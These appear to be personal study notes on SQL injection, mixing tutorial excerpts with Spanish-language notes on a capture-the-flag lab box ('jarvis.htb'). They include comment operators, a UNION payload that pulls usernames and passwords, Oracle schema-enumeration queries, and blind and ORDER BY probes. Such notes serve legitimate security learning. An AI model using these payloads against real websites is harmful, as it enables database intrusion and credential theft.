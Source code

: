 Comment operator << Mysql

```
--  	
#  
/**/  
```





### Retrieving multiple values within a single column STRING CONCATENATION
In the preceding example, suppose instead that the query only returns a single column.

You can easily retrieve multiple values together within this single column by concatenating the values together, ideally including a suitable separator to let you distinguish the combined values. For example, on Oracle you could submit the input:

```
' UNION SELECT username || '~' || password FROM users--
```
This uses the double-pipe sequence || which is a string concatenation operator on Oracle. The injected query concatenates together the values of the username and password fields, separated by the ~ character.

## Examining the database in SQL injection attacks


### ORACLE
On Oracle, you can obtain the same information with slightly different queries.

You can list tables by querying all_tables:

SELECT * FROM all_tables

And you can list columns by querying all_tab_columns:

SELECT * FROM all_tab_columns WHERE table_name = 'USERS'




# JARVIS CASE BLIND SQLI
---

## identifing
la detectamos con:
```
http://jarvis.htb/room.php?cod=6 and 1=1
http://jarvis.htb/room.php?cod=6 and 1=2
```
## enumeration
```
jarvis.htb/room.php?cod=6 order by 1
jarvis.htb/room.php?cod=6 order by 7
jarvis.htb/room.php?cod=6 order by 8 > error
```
* chequeamos que tipos estan permitidos
